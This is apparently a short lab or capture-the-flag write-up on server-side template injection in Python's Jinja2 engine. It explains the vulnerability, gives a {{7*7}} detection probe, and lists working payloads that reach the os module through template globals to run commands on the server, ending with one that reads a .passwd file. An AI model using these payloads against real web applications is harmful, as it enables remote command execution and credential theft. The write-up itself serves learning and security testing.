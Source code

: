 # Python - Server-side Template Injection Introduction

Reference:

https://www.vaadata.com/blog/server-side-template-injection-vulnerability-what-it-is-how-to-prevent-it/

https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/

Possible Usage: To the site where user can upload the posts. If our request is interpreted, then it is executable.

How to identify: \{{7\*7\}}, if that payload is executed-> then it is vulnerable(not sanitized)

\->

What is a server-side template injection (SSTI) vulnerability?

Some web applications use template engines to separate the visual presentation (HTML, CSS…) from the application logic (PHP, Python…). These engines allow the creation of template files in the application. Templates are a mixture of fixed data (layout) and dynamic data (variables). When the application is used, the template engine will replace the variables contained in a template with values and will transform the template into a web page (HTML) and then send it to the client.

\->

There was a post about how to find the exploitable module for jinja:

and that said: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}`

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

are context-free payloads

then enter

`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`

into the input field for post, for check.

`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la').read() }}` to find .passwd

\-> Finally `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat .passwd').read() }}`
